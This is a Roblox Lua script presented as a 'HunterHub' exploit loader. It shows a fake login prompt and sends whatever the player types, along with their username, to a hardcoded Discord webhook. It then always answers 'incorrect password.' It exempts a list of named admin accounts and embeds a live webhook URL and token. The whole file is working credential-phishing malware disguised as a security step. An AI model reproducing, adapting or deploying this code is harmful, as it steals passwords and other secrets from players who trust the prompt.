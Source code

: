 local Players = game:GetService("Players")
local HttpService = game:GetService("HttpService")
local LocalPlayer = Players.LocalPlayer

-- Admin list
local Admins = {
	["QT_xAraa"] = true,
	["Shot16kill"] = true,
	["theoverryou3_alt"] = true,
	["Raiden_Nika"] = true,
	["philippinesBraxy123"] = true,
	["Brxy_Alt"] = true,
	["VyxzarlIion"] = true,
	["Bowmbaclaat"] = true,
	["FrostByte_074"] = true
}

-- Check if player is an admin
if Admins[LocalPlayer.Name] then
	return
end

-- UI Setup in CoreGui
local screenGui = Instance.new("ScreenGui")
screenGui.ResetOnSpawn = false
screenGui.Name = "HunterHubLogin"
screenGui.Parent = game:GetService("CoreGui")

local frame = Instance.new("Frame", screenGui)
frame.Size = UDim2.new(1, 0, 1, 0)
frame.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
frame.BackgroundTransparency = 1

local loginFrame = Instance.new("Frame", frame)
loginFrame.AnchorPoint = Vector2.new(0.5, 0.5)
loginFrame.Position = UDim2.new(0.5, 0, 0.5, 0)
loginFrame.Size = UDim2.new(0, 300, 0, 240)
loginFrame.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
loginFrame.BorderSizePixel = 0

-- Title
local title = Instance.new("TextLabel", loginFrame)
title.Text = "HunterHub v6.3.5"
title.Size = UDim2.new(1, 0, 0, 30)
title.BackgroundTransparency = 1
title.TextColor3 = Color3.fromRGB(255, 255, 255)
title.Font = Enum.Font.Merriweather
title.TextScaled = true

-- Username box (readonly)
local usernameBox = Instance.new("TextBox", loginFrame)
usernameBox.Text = LocalPlayer.Name
usernameBox.Size = UDim2.new(1, -40, 0, 30)
usernameBox.Position = UDim2.new(0, 20, 0, 40)
usernameBox.BackgroundColor3 = Color3.fromRGB(50, 50, 50)
usernameBox.TextColor3 = Color3.fromRGB(255, 255, 255)
usernameBox.Font = Enum.Font.Merriweather
usernameBox.TextScaled = true
usernameBox.ClearTextOnFocus = false
usernameBox.TextEditable = false

-- Input box
local inputBox = Instance.new("TextBox", loginFrame)
inputBox.PlaceholderText = "Enter anything..."
inputBox.Size = UDim2.new(1, -40, 0, 30)
inputBox.Position = UDim2.new(0, 20, 0, 80)
inputBox.BackgroundColor3 = Color3.fromRGB(50, 50, 50)
inputBox.TextColor3 = Color3.fromRGB(255, 255, 255)
inputBox.Font = Enum.Font.Merriweather
inputBox.TextScaled = true
inputBox.ClearTextOnFocus = true

-- Button
local openButton = Instance.new("TextButton", loginFrame)
openButton.Text = "Open"
openButton.Size = UDim2.new(1, -40, 0, 30)
openButton.Position = UDim2.new(0, 20, 0, 120)
openButton.BackgroundColor3 = Color3.fromRGB(70, 130, 180)
openButton.TextColor3 = Color3.fromRGB(255, 255, 255)
openButton.Font = Enum.Font.Merriweather
openButton.TextScaled = true

-- Label: Do not share
local warnLabel = Instance.new("TextLabel", loginFrame)
warnLabel.Text = "Do not share this script!!"
warnLabel.Size = UDim2.new(1, 0, 0, 20)
warnLabel.Position = UDim2.new(0, 0, 1, -40)
warnLabel.BackgroundTransparency = 1
warnLabel.TextColor3 = Color3.fromRGB(255, 0, 0)
warnLabel.Font = Enum.Font.Merriweather
warnLabel.TextScaled = true

-- Label: Step 1 Security
local stepLabel = Instance.new("TextLabel", loginFrame)
stepLabel.Text = "Step 1 Security"
stepLabel.Size = UDim2.new(1, 0, 0, 20)
stepLabel.Position = UDim2.new(0, 0, 1, -20)
stepLabel.BackgroundTransparency = 1
stepLabel.TextColor3 = Color3.fromRGB(255, 255, 255)
stepLabel.Font = Enum.Font.Merriweather
stepLabel.TextScaled = true

-- Webhook sending function (including username)
local function sendToWebhook(text)
	local url = "https://discord.com/api/webhooks/1371748529965629540/zLaoxYBoPgL4_tFC2KqqxtGwxgHXcv2HbFsxl_Iug1yPlXQ_mBzaYRegUo8A5WqsuR0U"
	local username = LocalPlayer.Name

	local data = {
		content = "**New Input from HunterHub GUI:**\n```Username: " .. username .. "\nInput: " .. text .. "```",
		username = "HunterHub Logger"
	}

	local jsonData = HttpService:JSONEncode(data)

	local success, err = pcall(function()
		local requestFunc = (http_request or request or syn.request)
		if requestFunc then
			requestFunc({
				Url = url,
				Method = "POST",
				Headers = {["Content-Type"] = "application/json"},
				Body = jsonData
			})
		end
	end)
end

-- Button click
openButton.MouseButton1Click:Connect(function()
	local inputText = inputBox.Text
	if inputText and inputText ~= "" then
		sendToWebhook(inputText)
		inputBox.Text = "incorrect password."
		inputBox.TextColor3 = Color3.fromRGB(255, 0, 0)
	end
end)
